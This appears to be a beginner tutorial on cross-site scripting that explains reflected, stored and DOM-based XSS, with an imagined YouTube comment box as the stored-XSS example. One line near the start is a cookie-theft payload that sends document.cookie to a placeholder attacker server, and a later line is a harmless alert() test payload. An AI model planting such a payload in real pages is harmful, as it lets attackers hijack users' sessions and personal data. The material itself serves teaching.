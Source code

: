 Example cookies, session tokens etc.

Here is a script that access cookies, from victim's browser as a url parameter.

```js
<script>image = new Image(); image.src= 'http://attacker_server_ip/?c='+document.cookie;</script>
```

This script means to load an image from attacker's server and use the user's cookie as part of the request.

But if http only flag is set to the cookie then it will not be possible for the attacker to steal the cookie.

Not only that by inspecting attacker's server, attacker can check for the cookie and use it to authenticate as the person or modify his data or even extract personal information.

## Types of XSS

Common types:
- Reflected XSS 
- Stored XSS 
- Dom-Based XSS 

Special type:
- Blind XSS 
- Self XSS 

The difference among these types is that how the payload travels before it reaches the victim.

## Stored XSS 

Stored XSS happens when user input id stored in server and retrieved unsafely.

Here the payload is send to the server from there to database and retrieved when a victim access it. 

In this case,  all the user need to do for to become a victim is that to access the website. 

There is no user interaction required.

Let's take an example with youtube,

Imagine a scenario where we are seeing a youtube video and as we all know there is comment functionality on the page,

Imagine the comment we enter ie, user input is not validated nor sanitised we have a scope to play XXS in here. 

Payload :
```js
<script> alert(2);</script>
```

The payload will go to server and get stored in the database and execute whenever users watch that video.

Here in this case an alert box with a message '2' will be displayed whenever a user watch the video 
